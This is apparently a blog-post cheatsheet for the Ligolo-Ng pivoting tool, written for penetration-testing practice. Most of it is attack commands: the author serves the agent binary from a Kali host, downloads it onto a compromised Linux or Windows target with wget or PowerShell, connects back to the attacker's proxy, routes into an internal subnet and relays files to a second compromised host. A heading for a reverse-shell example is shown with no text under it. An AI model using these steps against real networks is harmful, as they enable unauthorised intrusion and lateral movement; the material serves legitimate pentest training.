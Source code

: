 ```yaml
---
layout: post
title:  Ligolo-Ng Cheatsheet
description: Cheatsheet for Ligolo-Ng
date:   2024-10-31 09:00:00 +0300
image:  '/images/21.jpg'
tags:   [Cheatsheets, Tools, Pivoting]
---
```

# Getting Ligolo-Ng
Important Note: Make sure you are always using the same version of Proxy and Agent.

## Download the binaries manually (recommended)
### PROXY (Run this on Kali)
- [Linux 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Proxy](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_proxy_0.7.2-alpha_windows_amd64.zip)

### AGENT (Run this on Pivot Host)
- [Linux 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_linux_amd64.tar.gz)
- [Windows 64-bits Agent](https://github.com/nicocha30/ligolo-ng/releases/download/v0.7.2-alpha/ligolo-ng_agent_0.7.2-alpha_windows_amd64.zip)

For more information about Ligolo-Ng, visit its official [GitHub Repository](https://github.com/nicocha30/ligolo-ng).

# Alternative with Package Installer
```shell
sudo apt install ligolo-ng
# Locate, copy the needed files and run them (Example with agent file)
sudo updatedb -v
locate agent
sudo cp /path/to/ligolo/agent .
sudo chmod +x agent
./agent
```

# Basic Pivot
Move the agent file into the pivot host:
```shell
# On Kali
sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
python3 -m http.server 443
# On Target (Linux)
cd /tmp
wget http://<kali_ip>:443/agent
# On Target (Windows using PowerShell)
cd C:\Windows\Temp
powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
```
Set up Ligolo-Ng on Kali:
```shell
# Create an interface
sudo ip tuntap add user Vorkharium mode tun ligolo
sudo ip link set ligolo up
# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
sudo ip route add 172.16.150.0/24 dev ligolo
ip route list
# Run the proxy file
sudo chmod +x proxy
./proxy -selfcert
# The Ligolo-Ng console will now open (We will interact with it soon)
```

On the Pivot target, use the agent file to connect to our running proxy:
```shell
# On Linux
chmod +x agent
./agent --connect <kali_ip>:11601 -ignore-cert
# On Windows PowerShell
./agent.exe --connect <kali_ip>:11601 -ignore-cert
```

Now enter the following on the Ligolo-Ng console:
```shell
# Enter "session" to show the available sessions
ligolo-ng » session
# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
? Specify a session : 1
# Enter "start" to start the connection
[Agent : hackme@compromisedmachine] » start
# Now we are able to access the network 172.16.150.0/24
```

## File Transfers Example with Single Pivot
In this example:
- We got access into the Host B 172.16.150.20 (We are inside its CLI).
- We previously set up our Pivot Host A, in this case 172.16.150.10.
- Now we want to move a file from Kali (192.168.45.200) to Host B (172.16.150.20) through our Pivot Host A (172.16.150.10).

To achieve that, we will create a new listener in our active Ligolo-Ng session:
```shell
# Create new listener - Port 1236 on Kali will be the Port 9003 on the Pivot Target
# Enter the following on the running active Kali Ligolo-Ng session
listener_add --addr 0.0.0.0:1236 --to 0.0.0.0:9003
# Start Python server on Kali using Port 1236
python3 -m http.server 1236
# From the Host B CLI, access Python server through Port 9003 at the Pivot Host
wget http://172.16.150.10:9003/test.txt
```

## Reverse Shell Example with Single Pivot

